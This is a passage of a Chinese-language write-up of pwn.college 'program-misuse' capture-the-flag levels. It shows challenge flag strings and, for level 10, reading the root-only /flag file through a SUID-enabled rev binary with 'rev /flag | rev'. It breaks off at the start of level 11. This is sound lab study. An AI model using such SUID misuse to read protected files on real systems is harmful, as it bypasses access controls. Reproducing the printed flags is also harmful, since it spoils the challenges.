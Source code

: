 我果然料事如神

```
pwn.college{w4DHxmYT2HQw-wrXkHpQXqNmIWW.0VM1EDL2QjMyMzW}
```
退出命令是<C-x>

## level10 Requires you to understand their output to derive the flag from it!
![切换](image.png)
一句题外话，不同挑战之间无缝切换好快啊，很适合Linux直接用terminal链接！
```
hacker@program-misuse-level-10:~$ sh file.sh
Welcome to ./babysuid_level10!

This challenge is part of a series of programs that
require you to understand their output to derive the flag from it.

I just set the SUID bit on /usr/bin/rev.
Try to use it to read the flag!

IMPORTANT: make sure to run me (./babysuid_level10) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/rev!
```
`rev`是反序输出的工具

但是难不住我
```
hacker@program-misuse-level-10:~$ rev /flag
}WzMyMjQ2LDE1Ml0.iqRmReNkY5WaIyBZQULv-MYk7kI{egelloc.nwp
hacker@program-misuse-level-10:~$ rev /flag | rev
pwn.college{Ik7kYM-vLUQZByIaW5YkNeRmRqi.0lM1EDL2QjMyMzW}
hacker@program-misuse-level-10:~$
```
## level11 Requires you to understand their output to derive the flag from it!
```
hacker@program-misuse-level-11:~$ sh file.sh
Welcome to ./babysuid_level11!
```